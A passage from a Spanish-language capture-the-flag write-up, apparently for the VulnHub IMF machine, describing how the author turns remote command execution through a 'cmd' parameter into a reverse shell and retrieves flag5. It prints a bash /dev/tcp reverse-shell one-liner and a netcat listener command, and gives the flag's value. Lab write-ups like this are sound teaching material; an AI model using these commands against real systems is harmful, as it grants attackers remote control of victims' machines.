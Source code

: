 Por lo tanto tenemos ejecución remota de comandos y podemos intentar a entablar una `Reverse Shell` con la máquina víctima.

El payload que usaré para ello será el siguiente

- Comando a ejecutar en la máquina víctima:
```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/[ip]/[port] 0>&1' 
```
> [ip] corresponde con nuestra ip y [port] con el puerto que elijamos para ponernos en escucha

- Comando a ejecutar en la máquina atacante:
```bash
nc -nlvp [port]
```
> [port] corresponde con el puerto que elijamos para ponernos en escucha

Lo que estamos haciendo con estos comandos es ponernos en escucha en un puerto en la máquina del atacante y conectándonos por ese puerto en la máquina víctima y enviándonos una shell.

Si ponemos el comando de la víctima en nuestro parámetro `cmd` y lo url-encodeamos quedaría de la siguiente manera:

![](/assets/images/vh-writeup-imf/reverse-shell.png)

En el directorio donde aparecemos hay un archivo donde se encuentra la flag:

![](/assets/images/vh-writeup-imf/flag5.png)

Flag: `flag5{YWdlbnRzZXJ2aWNlcw==}` -> `agentservices`

Esta será la pista para la escalada de privilegios.

<a id="escalada"></a>
### Escalada de privilegios


